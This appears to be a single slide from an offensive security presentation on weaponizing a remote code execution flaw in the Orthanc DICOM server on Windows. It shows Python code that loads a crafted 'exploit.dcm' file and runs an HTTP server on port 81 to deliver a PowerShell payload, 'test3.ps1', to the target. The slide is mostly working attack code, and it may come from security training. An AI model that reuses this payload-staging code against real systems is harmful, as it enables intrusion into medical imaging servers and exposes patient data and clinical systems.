

# Orthanc Windows RCE - Weaponization
Next, make this modification to open the HTTP server. This is what will host our payload.
| DICOM\_FILE = Path('exploit.dcm').read\_bytes() # Python3 HTTP Server Settings PORT = 81 FILE\_TO\_SERVE = '/test3.ps1' server\_shut\_down = threading.Event() def run\_server(): with socketserver.TCPServer(("", PORT), CustomHandler) as httpd: # Serve until the specific file is requested while not server\_shut\_down.is\_set(): httpd.handle\_request() |
| --- |